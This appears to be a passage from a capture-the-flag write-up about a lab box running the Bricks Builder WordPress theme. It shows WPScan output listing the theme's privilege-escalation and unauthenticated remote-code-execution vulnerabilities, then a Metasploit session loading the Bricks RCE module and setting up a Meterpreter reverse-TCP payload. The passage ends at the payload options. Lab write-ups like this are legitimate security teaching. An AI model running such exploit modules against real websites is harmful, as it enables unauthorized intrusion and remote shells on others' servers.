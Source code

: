 ```jsx
 | [!] Title: Bricksbuilder < 1.9.7 - Authenticated (Contributor+) Privilege Escalation via create_autosave
 |     Fixed in: 1.9.7
 |     References:
 |      - https://wpscan.com/vulnerability/d4a8b4de-a687-4e55-ab71-2784bef3fc55
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-2297
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/cb075e85-75fc-4008-8270-4d1064ace29e
 |
 | Version: 1.9.5 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - https://bricks.thm/wp-content/themes/bricks/style.css, Match: 'Version: 1.9.5'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:05 <=============================================================================================================================================================> (137 / 137) 100.00% Time: 00:00:05

[i] No Config Backups Found.

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 2
 | Requests Remaining: 23

[+] Finished: Sun Apr 13 16:19:32 2025
[+] Requests Done: 143
[+] Cached Requests: 38
[+] Data Sent: 35.385 KB
[+] Data Received: 61.069 KB
[+] Memory used: 257.367 MB
[+] Elapsed time: 00:00:12

```

<br/>

> Title: Bricks < 1.9.6.1 - [Unauthenticated Remote Code Execution](https://www.rapid7.com/db/modules/exploit/multi/http/wp_bricks_builder_rce/)
{: .prompt-danger }


```jsx
msf6 > use exploit/multi/http/wp_bricks_builder_rce 
msf6 exploit(multi/http/wp_bricks_builder_rce) > show options

Module options (exploit/multi/http/wp_bricks_builder_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   VHOST                       no        HTTP server virtual host

Payload options (php/meterpreter/reverse_tcp):

```